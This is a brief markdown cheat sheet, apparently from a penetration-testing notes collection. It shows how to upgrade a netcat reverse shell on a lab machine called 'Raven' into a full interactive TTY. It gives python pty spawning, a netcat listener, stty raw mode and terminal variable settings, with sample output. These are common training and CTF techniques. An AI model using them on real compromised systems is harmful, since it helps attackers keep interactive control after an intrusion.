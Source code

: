 # Terminal Elevation

## If python is installed:
```
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py

python /tmp/asdf.py
```

## Upgrading from a nc shell using magic (thank you Phineas Fisher)

From a nc reverse shell one can upgrade to a full TTY shell by first using Python's pty module to spawn a PTY shell. Afterwards background the process using Ctrl + Z and list the *$TERM* var as well as all the terminal's settings. All we would need is the xterm and row/columns of the current shell.
```
www-data@Raven:/var/www/html$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Raven:/var/www/html$ ^Z
[2]+  Stopped                 nc -nlvp 4040
root@palantir:~# echo $TERM
xterm-256color
root@palantir:~# stty -a
speed 38400 baud; rows 24; columns 144; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z;
rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk brkint ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```
Then tell stty to echo all characters to the screen in a raw format. *fg* should bring the background nc session back up and can be restored with *reset*.
```
root@palantir:~# stty raw -echo
root@palantir:~# nc -nlvp 4040
                              reset
```
And set the variables to your own shell's.
```
www-data@Raven:/var/www/html$ export SHELL=bash
www-data@Raven:/var/www/html$ export TERM=xterm-256color
www-data@Raven:/var/www/html$ stty rows 24 columns 144
```
The resulting shell should be a full TTY shell, able to do command completion, interactive sessions and everything else.

